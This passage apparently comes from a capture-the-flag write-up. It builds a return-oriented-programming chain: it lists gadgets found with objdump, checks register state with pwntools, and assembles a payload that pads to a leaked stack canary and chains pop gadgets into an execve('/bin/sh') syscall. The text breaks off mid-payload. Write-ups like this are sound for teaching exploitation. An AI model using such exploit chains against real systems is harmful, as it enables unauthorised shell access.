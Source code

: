 ### Stage 3: ROPchain

Now, with the canary recovered, we can craft our ROPchain to create the shell for us. So let's get all the gadget we can use with tools `objdump`:

```bash
$ objdump -d debug.o
0000000000000000 <_debug_set_reg_rdi>:
   0:	57                   	push   %rdi
   1:	5f                   	pop    %rdi
   2:	c3                   	ret    
0000000000000003 <_debug_set_reg_rsi>:
   3:	57                   	push   %rdi
   4:	5e                   	pop    %rsi
   5:	c3                   	ret    
0000000000000006 <_debug_set_reg_rax>:
   6:	57                   	push   %rdi
   7:	58                   	pop    %rax
   8:	c3                   	ret    
...
000000000000000f <_debug_set_reg_rdx>:
   f:	57                   	push   %rdi
  10:	5a                   	pop    %rdx
  11:	c3                   	ret    
...
```

And those gadget will be available at base address add `0x1000`. Also we can see that after the program get player name, stop at `ret` of `get_player_name()`, we can see rdi is pointing to the begining of our input. The script to check this will be:

```python
playgame(20)
p.sendafter(b'name:\n', cyclic(0x100))
```

And attach with gdb to get that:

![check-registers.png](images/check-registers.png)

So we just simply put the string `/bin/sh` at the begining of our payload and pad to the canary, then input shellcode and we can get the shell:

```python
pop_rsi = debug_o + 0x1000 + 0x4
pop_rax = debug_o + 0x1000 + 0x7
pop_rdx = debug_o + 0x1000 + 0x10
syscall = syscalls_o + 2
p.sendlineafter(b'(0-31)?\n', str(0x1000).encode())
payload = flat(
	b'/bin/sh\x00',
	b'A'*0x20, canary,
	b'B'*8,             # Fake rbp
	pop_rax, 0x3b,
	pop_rsi, 0,
	pop_rdx, 0,
	syscall,
```